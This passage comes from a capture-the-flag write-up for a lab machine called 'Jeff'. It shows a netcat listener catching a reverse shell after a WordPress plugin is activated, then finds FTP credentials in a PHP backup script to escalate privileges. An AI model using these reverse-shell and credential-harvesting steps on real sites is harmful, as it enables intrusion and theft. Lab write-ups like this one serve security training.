 2. Then navigate to `Installed Plugins`

3. Setup a `nc` listener and activate the `Akismet Plugin`.

```
┌──(root💀nam)-[~/ctf/thm/ctf/Jeff]
└─# nc -lnvp 443                                  
listening on [any] 443 ...
connect to [Redacted] from (UNKNOWN) [10.10.78.140] 41772
Linux Jeff 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 GNU/Linux
 06:21:46 up  1:13,  0 users,  load average: 0.00, 0.22, 1.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Jeff:/$ 
```

# Privilege Escalation

## www-data to backupmgr:

By enumerating the webroot directory, we can see there is a `ftp_backup.php` file, which reveals a username and password.

**ftp_backup.php**
```php
www-data@Jeff:/var/www/html$ cat ftp_backup.php
<?php
/* 
    Todo: I need to finish coding this database backup script.
	  also maybe convert it to a wordpress plugin in the future.
*/
$dbFile = 'db_backup/backup.sql';
$ftpFile = 'backup.sql';

$username = "backupmgr";
$password = "Redacted";

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");
}

$msg = "Upload failed";
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {
    $msg = "$file was uploaded.\n";
}

echo $msg;
ftp_close($conn_id);
```
